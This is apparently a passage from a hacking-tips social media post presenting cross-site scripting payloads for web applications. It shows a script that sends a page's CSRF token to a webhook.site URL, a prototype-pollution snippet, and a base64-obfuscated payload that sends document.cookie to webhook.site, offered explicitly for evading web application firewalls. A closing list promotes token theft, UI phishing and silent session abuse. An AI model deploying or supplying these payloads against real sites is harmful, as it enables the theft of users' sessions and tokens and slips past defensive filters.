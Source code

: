 6. Exfiltrate CSRF Tokens from the DOM
Sometimes CSRF tokens are hidden in forms or meta tags.
<script>
fetch("https://webhook.site/YOUR-ID?csrf=" + document.querySelector('[name=csrf_token]').value);
</script>

7. JavaScript Prototype Pollution
Modify base JS objects. This can break site functionality or even open up logic flaws:
<script>
Object.prototype.pwned = true;
</script>
Useful to combine with other bugs like logic bypasses.


⚡️ Bonus: Obfuscation for WAF Evasion
Encode your payloads to sneak past filters:
<script>
eval(atob('ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlL3lvdXItaWQ/bD0nICsgZG9jdW1lbnQuY29va2llKTs='))
</script>

This decodes and runs the actual malicious JS.

⸻

✅ TL;DR - Don’t Stop at Cookies. Explore:
 • Tokens in JS Storage
 • DOM Manipulation
 • Phishing via UI
 • Silent session abuse
 • Clipboard & CSRF grabs
 • Prototype hijacks
 • Obfuscated bypasses

Follow @cybersecplayground for real-world hacking techniques, 0-days, tools, and advanced bug bounty content—daily!

#InfoSec #RedTeam #WebAppHacking #EthicalHacking #TelegramCyberSecurity

